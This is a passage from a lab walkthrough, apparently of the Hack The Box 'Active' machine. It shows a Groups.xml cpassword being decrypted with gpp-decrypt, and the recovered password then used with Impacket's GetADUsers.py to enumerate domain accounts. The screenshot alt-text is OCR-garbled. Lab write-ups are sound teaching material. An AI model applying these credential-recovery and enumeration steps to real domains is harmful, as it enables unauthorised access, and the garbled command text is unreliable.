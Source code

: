  

I notice a groups.xml which could contain some useful items. Let\'s have
a closer look

 

 

![Machine generated alternative text: kali)-C
-/m/(31B2F34ø-ø16D-11D2-945F-øøcø4FB984F9VMACHINE/Preferences/Groups
Groups. xml c?xml
uid-\"IEF57DA28-5F69-453ø-A59E-AAB58578219DFXProperties
KOhJ0dcqh4ZGMexosQbcpZ3xUjTLfcuNH8pG5aSVYdYw/Ng1VmQ\" changeLogon-\"ø\"
Q Group\" action:\" clsid-\"0125E937-EB16-4b4c-9934-544FC6D24D26FXlJser
clsid-\"IDF5F1855-51E5-4d24-8BIA-D9BDE98BAIDIF TGS\" image:\" 2\"
changed:\" 2018-07-18 cpassword- t/QS9Fe1cJ83mjWA98gw9gu newName-\" full
Name:\"\" description:\"\" noChange-\"1\" neverExpires-\"1\"
acctDisabled-\"ø\" userName-\"active.htbÅSVC TGS\"
](media/image5.png){width="13.635416666666666in" height="1.25in"}

 

There is a cpassword stored in the file! This can be decrypted

![Machine generated alternative text: (kali@ kali)-C
-/m/(31B2F34ø-ø16D-11D2-945F-øøcø4FB984F9VMACHINE/Preferences/Groups \$
gpp-decrypt
edBSHowhZLTjt/QS9Fe1cJ83mjWA98gw9guK0hJ0dcqh4ZGMexosQbcpZ3xUjTLfcuNH8pG5aSVYdYw/Ng1VmQ
GPPstillStandingStrong2k18 ](media/image6.png){width="8.59375in"
height="0.5416666666666666in"}

 

Now we have a password but we need to work out what users are on the
machine

 

![Machine generated alternative text: kali
-/m/(31B2F34ø-ø16D-11D2-945F-øøcø4FB984F9VMACHINE/Preferences/Groups •\$
GetADUsers.py active.htb/svc TGS:GPPstillStandingStrong2k18 -dc-ip -all
10.10. 10.100 /usr/share/offsec-awae-whee1s/pyOpenSSL-19.1. ø-py2 .
py3-none-any . wh1/OpenSSL/crypto . py : 12 : thon core team. Support
for it is now deprecated in cryptography, and will be removed Impacket
vø.9.19 Copyright 2019 SecureAuth Corporation ) Querying lø.lø.lø.løø
for information about domain. 19:50. CryptographyDeprecationWarning: the
next release. Python 2 is no longer supported by the Py • 40 LastLogon
2023-09-09 cneve» cneve» 2018-07-21 18:59:23 Name Administrator Guest
krbtgt SVC TGS Emai L PasswordLastSet 2018-07-18 cneve» 2018-07-18
2018-07-18 20. 21:14:38 ](media/image7.png){width="13.604166666666666in"
height="2.3645833333333335in"}

 

Now we have some usernames, lets go back to trying the previous SMB
shares as the SVC_TGS account as that is none standard

 